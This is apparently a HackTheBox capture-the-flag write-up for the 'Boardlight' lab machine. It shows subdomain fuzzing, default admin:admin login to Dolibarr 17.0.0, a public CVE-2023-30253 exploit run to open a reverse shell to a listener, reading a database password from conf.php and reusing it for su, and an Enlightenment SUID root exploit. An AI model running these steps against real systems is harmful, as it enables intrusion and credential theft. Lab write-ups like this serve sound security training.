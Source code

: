 ```yaml
---
title: "Boardlight"
date: 2025-06-20
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Boardlight

![](assets/Pasted%20image%2020250520183049.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.11.11 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 19:03 CEST
Nmap scan report for 10.10.11.11
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   41.30 ms 10.10.14.1
2   41.98 ms 10.10.11.11

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.55 seconds
```

The site at port `80` shows a template of a cybersec company.

![](assets/Pasted%20image%2020250520191115.png)

There is an email.

![](assets/Pasted%20image%2020250520191214.png)

Add the domain to `/etc/hosts`.

Using `wfuzz` let's discover subdomains.

```shell
$ wfuzz -c --hh 15949 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.board.htb" http://board.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://board.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000072:   200        149 L    504 W      6360 Ch     "crm"                                 

Total time: 4.428437
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 1126.582
```

Add `crm.board.htb` to `/etc/hosts`.

Navigating to that subdomain we get a Dolibarr instance `17.0.0`.

![](assets/Pasted%20image%2020250520191647.png)

Trying `admin:admin` works.

![](assets/Pasted%20image%2020250520192113.png)

## Initial Access

Using this exploit [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253), create a listener and execute it.

```shell
$ python exploit.py http://crm.board.htb admin admin 10.10.14.11 80             
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

```shell
$ sudo rlwrap nc -lnvp 80                       
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.11] 59606
bash: cannot set terminal process group (855): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ whoami
whoami
www-data
```

In the Dolibarr config folder we can find MySQL credentials.

```shell
ww-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
cat conf.php
...
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
...
```

Pivot to user `larissa` with the MySQL password.

```shell
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
su larissa
Password: serverfun2$2023!!

larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ whoami
whoami
larissa
```

```shell
larissa@boardlight:~$ cat user.txt
cat user.txt
06457c0df24e027ea565aedc9b0122a8
```

## Privilege Escalation

Looking at SUID bit we have Enlightenment `0.23.1`.

```
larissa@boardlight:/var/log$ enlightenment --version
ESTART: 0.00001 [0.00001] - Begin Startup
ESTART: 0.00020 [0.00020] - Signal Trap
ESTART: 0.00028 [0.00007] - Signal Trap Done
ESTART: 0.00039 [0.00011] - Eina Init
ESTART: 0.00075 [0.00036] - Eina Init Done
ESTART: 0.00084 [0.00009] - Determine Prefix
ESTART: 0.00101 [0.00017] - Determine Prefix Done
ESTART: 0.00106 [0.00005] - Environment Variables
ESTART: 0.00111 [0.00005] - Environment Variables Done
ESTART: 0.00116 [0.00005] - Parse Arguments
Version: 0.23.1
E: Begin Shutdown Procedure!
```

There is a PE exploit via `searchsploit`.

![](assets/Pasted%20image%2020250520213720.png)

Execute it and get root.

```shell
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Welcome to the rabbit hole :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
```

## Post Exploitation

Get the flag

```shell
# cat /root/root.txt                                                                                      
38da93b2c8510a48d47ca63cd514e4dd 
```
